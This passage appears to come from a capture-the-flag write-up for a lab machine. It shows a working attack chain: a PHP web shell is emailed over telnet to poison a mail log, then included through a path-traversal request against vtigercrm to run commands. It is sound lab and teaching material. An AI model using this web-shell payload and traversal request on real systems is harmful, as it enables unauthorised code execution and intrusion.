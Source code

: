 ```shell
```

## SMTP Log Poisoning through LFI to RCE [Path #1]

Since SMTP is open we can try to send emails with malicious code, this malicious code will be stored under log files under `/var/mail/[username]`, we already have valid usernames so we can try to do Log Poisoning via SMTP and access the log via LFI.

Let's use telnet to send an email:

```shell
telnet 10.10.10.7 25

HELO wixnic
MAIL FROM:<wixnic@helo.htb>
RCPT TO:<asterisk@localhost>
DATA
Message from telnet PHP code: <?php system($_REQUEST["telnet_cmd"]); ?>
.
QUIT
```

This how the output of each input looks:

```shell
❯ telnet 10.10.10.7 25

Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix
HELO wixnic
250 beep.localdomain
MAIL FROM:<wixnic@helo.htb>
250 2.1.0 Ok
RCPT TO:<asterisk@localhost>
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
Message from telnet PHP code: <?php system($_REQUEST["telnet_cmd"]); ?>
.
250 2.0.0 Ok: queued as 37235D92FD
QUIT
221 2.0.0 Bye
Connection closed by foreign host.
```

Now send the curl request with the `&telnet_cmd` parameter with the argument as the `id` command:

```shell
curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action&telnet_cmd=id"
```

We can send an email with swaks:

